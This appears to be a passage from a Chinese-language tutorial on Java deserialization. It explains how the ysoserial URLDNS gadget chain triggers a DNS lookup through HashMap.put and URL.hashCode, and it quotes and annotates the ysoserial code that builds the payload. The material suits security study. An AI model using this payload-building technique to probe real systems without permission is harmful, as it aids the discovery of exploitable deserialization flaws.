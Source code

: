 前面创建hashmap，url对象，由于hashCode是private属性，更改访问权限让它变得允许修改都没问题。

但是下面这块为啥不能直接把URL对象put进去hashmap就好了？反而要设置成别的值再设置回来？

我们需要关注一下`java.util.HashMap#put`

```
public V put(K key, V value) {
        return putVal(hash(key), key, value, false, true);
    }
```

可以发现put里面的语句跟我们之前看到的会触发DNS查询的语句一模一样，同时URL对象再初始化之后的hashCode默认为-1。

也就是说在我们生成payload的过程中，如果不做任何修改就直接把URL对象放入HashMap是在本地触发一次DNS查询的。

把`f.set(url, 0xdeadbeef);`这句话注释了看看：

[![](./img/201762/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t0100466a90a376eba0.png)

这时候hashCode默认为-1，然后就会进入`hash(key)`触发DNS查询。这就会混淆是你本地的查询还是对方机器的查询的DNS。在put之前修改个hashCode，就可以避免触发。

而在put了之后：
- 1.如果之前没有`f.set(url, 0xdeadbeef);`修改hashCode，就会完成DNS查询的同时，计算出hashCode，从而修改成不为-1的值。这个hashcode会被序列化传输，到对方机器时就会因为不是-1而跳过DNS查询流程
- 2.如果之前修改了hashCode，那自然也会直接被序列化传输，不是-1也会跳过DNS查询流程。
所以需要`f.set(url, -1);`把这个字段改回来-1。

### <a class="reference-link" name="%E7%9C%8B%E7%9C%8BYsoserial%E6%98%AF%E6%80%8E%E4%B9%88%E5%81%9A%E7%9A%84"></a>看看Ysoserial是怎么做的

我们可以使用JAR调试的第三种方法，JAR源代码调试去看看Ysoserial的实现细节。（git clone Ysoserial项目来获取源码）

在`ysoserial.payloads.URLDNS#getObject`处下断点调试：

```
public Object getObject(final String url) throws Exception {

    //SilentURLStreamHandler 是一个自主写的避免生成payload的时候形成URL查询的骚操作，我们之后会分析。
    //用这种骚操作的前提是URL对象的handler属性是transient类型；
    //这代表我们自主写的骚操作不会被写入反序列化的代码中，不会对结果造成影响
    URLStreamHandler handler = new SilentURLStreamHandler();
    //来一个HashMap
    HashMap ht = new HashMap(); 
    //再来一个URL对象，这里把SilentURLStreamHandler这个handler传入进去，等会看看做了啥
    URL u = new URL(null, url, handler); //传入的URL是我们传入的DNS查询的目标
    //URL作为key值和HashMap duang~ 此处的value值是可以随便设置的，这里设置为url
    ht.put(u, url); 
    //按照我们之前分析，以上的put操作讲道理会触发一次DNS查询
    //这里使用了SilentURLStreamHandler的骚操作进行避免，但是同样为URL对象计算保存了一个hashCode
    //所以为了在对方机器上DNS成功，在这里重置一下hashCode为-1
    Reflections.setFieldValue(u, "hashCode", -1); 

    return ht;
}
```
